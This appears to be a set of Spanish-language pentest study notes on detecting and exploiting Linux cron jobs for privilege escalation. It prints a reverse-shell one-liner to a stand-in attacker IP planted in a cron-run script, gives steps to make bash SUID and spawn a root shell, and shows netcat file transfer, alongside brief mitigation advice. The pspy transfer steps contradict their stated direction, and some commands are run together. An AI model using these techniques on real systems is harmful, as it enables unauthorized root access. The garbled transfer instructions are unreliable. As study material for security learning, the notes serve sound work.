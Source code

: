 
-------

Aquí tienes una guía sobre la **detección y explotación de tareas cron** en sistemas Linux. Las tareas cron permiten programar la ejecución automática de scripts o comandos a intervalos específicos, y pueden ser un vector de ataque si no se gestionan correctamente.

### 1. **Detección de Tareas Cron**

- **Listar Tareas de Cron de un Usuario**: Puedes listar las tareas programadas para el usuario actual con:

    
    `crontab -l`
    
- **Listar Tareas de Cron de Otros Usuarios**: Si tienes acceso root, puedes ver las tareas cron de otros usuarios en:
    

    
    `sudo crontab -u username -l`
    
- **Verificar Archivos de Cron Globales**: Las tareas cron también pueden estar configuradas en archivos como:
    - `/etc/crontab`
    - `/etc/cron.d/`
    - `/var/spool/cron/crontabs/`

Para listar las tareas cron globales, puedes usar:



`cat /etc/crontab ls -l /etc/cron.d/`

### 2. **Identificación de Vulnerabilidades**

- **Permisos Incorrectos**: Verifica los permisos de los scripts o archivos ejecutados por cron. Si un script tiene permisos de escritura para usuarios no autorizados, puede ser modificado.
- **Tareas que se Ejecutan con Privilegios Elevados**: Identifica si hay tareas que se ejecutan como root o con permisos elevados. Esto incluye scripts ubicados en `/etc/cron.d/` o archivos de crontab de root.

### 3. **Explotación de Tareas Cron**

- **Modificar Scripts Cron**: Si puedes acceder a un script ejecutado por cron y tiene permisos de escritura, puedes inyectar código malicioso. Por ejemplo:
    - Si encuentras un script en `/etc/cron.d/myscript.sh`, edítalo para agregar una línea que abra un shell o ejecute un comando específico.
- **Crear un Script Malicioso**: Si un script cron ejecuta un archivo específico, puedes crear un archivo malicioso con el mismo nombre en la misma ruta y añadirlo a la carpeta de ejecución.
    
    `echo "/bin/bash -i >& /dev/tcp/attacker_ip/port 0>&1" > /path/to/script.sh chmod +x /path/to/script.sh`
    
- **Inyección de Comandos**: Si el cron llama a un comando que permite la inyección de parámetros (como `curl` o `wget`), puedes intentar manipularlo para ejecutar tu propio script.

### 4. **Escalación de Privilegios**

- **Ejecutar Código como Root**: Si has modificado un script cron que se ejecuta con privilegios de root, cualquier código que agregues se ejecutará con esos mismos privilegios.
- **Uso de Variables de Entorno**: Algunas tareas cron no limpian adecuadamente las variables de entorno. Puedes establecer `LD_PRELOAD` o variables similares para ejecutar código malicioso cuando se ejecute el script.

### 5. **Mitigación**

- **Revisar y Auditar Tareas Cron**: Realiza auditorías periódicas de las tareas cron para identificar configuraciones inseguras o scripts con permisos incorrectos.
- **Limitar Permisos de Archivos**: Asegúrate de que solo usuarios autorizados puedan modificar scripts ejecutados por cron. Usa permisos restrictivos para archivos críticos.
- **Monitorear Cambios en Scripts Cron**: Implementa un sistema de monitoreo para detectar cambios no autorizados en scripts y archivos relacionados con cron.

Esta guía proporciona una visión general sobre la detección y explotación de tareas cron. Recuerda realizar estas acciones de manera ética y solo en entornos donde tengas permiso para hacerlo.

---------

Primero, instalamos el paquete con el comando:


`sudo apt install cron`

![[Pasted image 20241026192859.png]]

Y con el comando `crontab -e`, puedes acceder a las configuraciones de las tareas cron. A continuación, definimos la siguiente tarea:



`* * * * * /ruta/al/script.sh`

Esta tarea ejecutará el script ubicado en `/ruta/al/script.sh` cada minuto. Asegúrate de que el script tenga permisos de ejecución.

![[Pasted image 20241026193042.png]]

Para detectar qué scripts tienen asignadas tareas cron, podemos hacer lo siguiente:

![[Pasted image 20241026193334.png]]

![[Pasted image 20241026193350.png]]

En el script `procmon.sh`, podrías incluir las siguientes líneas para detectar las tareas cron que se están ejecutando en el sistema:

![[Pasted image 20241026193815.png]]

Así, podemos ver qué tareas cron se están ejecutando y los recursos pertinentes. Al ejecutar el script `procmon.sh`, obtendremos un informe detallado de todas las tareas cron activas, incluyendo:

![[Pasted image 20241026194024.png]]

Así, podrías editar el `script.sh` añadiéndole un permiso SUID a un comando de bin que desees de la siguiente manera:

![[Pasted image 20241026194203.png]]

Y así, una vez la tarea cron ejecute el script, el binario de `bash` ya tendrá permisos SUID, permitiendo que cualquier usuario lo ejecute como root.

Para lanzar una shell de `bash` con privilegios de root de la siguiente manera, puedes usar el siguiente comando:

```bash
bash -p
```

Y de la siguiente manera, podemos transferir la herramienta **pspy** a nuestra máquina víctima a través de TCP de la siguiente forma:

1. **Iniciar un Servidor TCP en tu Máquina de Ataque**: Utiliza un servidor simple para recibir el archivo. Por ejemplo, puedes usar `nc` (netcat) para crear un servidor en un puerto específico:
    
    
    `nc -lvnp 4444 > pspy`
    
    Esto escuchará en el puerto 4444 y guardará cualquier dato recibido en un archivo llamado `pspy`.
    
2. **Transferir pspy desde la Máquina Víctima**: Desde la máquina víctima, usa `nc` para enviar el archivo a tu máquina de ataque. Asegúrate de que tienes el archivo `pspy` en la ruta correcta:
    
    `nc <IP_de_tu_maquina_atacante> 4444 < /ruta/a/pspy`
    
    Reemplaza `<IP_de_tu_maquina_atacante>` con la dirección IP de tu máquina atacante.
    
3. **Verificar la Transferencia**: Una vez que hayas enviado el archivo, verifica que el archivo `pspy` haya sido transferido correctamente a tu máquina de ataque. Puedes usar `ls` para comprobar su existencia:
    
    
    `ls -l pspy`

![[Pasted image 20241026194809.png]]

y se podrían ver todas las ejecuciones de las tareas cron

![[Pasted image 20241026194850.png]]




